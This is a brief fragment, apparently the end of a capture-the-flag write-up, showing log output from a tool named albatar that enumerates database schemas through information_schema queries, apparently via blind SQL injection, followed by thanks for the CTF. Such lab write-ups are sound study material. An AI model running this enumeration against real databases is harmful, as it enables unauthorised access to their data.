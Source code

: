 ```
03:27:34 albatar - Executing: ('SELECT COUNT(schema_name) FROM information_schema.schemata', 'SELECT schema_name FROM information_schema.schemata LIMIT ${row_pos},1')
03:27:38 albatar - count: 2
information_schema
cart
03:28:11 albatar - Time: 0h 2m 30s
```

Thanks for the CTF! :)

[@lanjelot](https://twitter.com/lanjelot)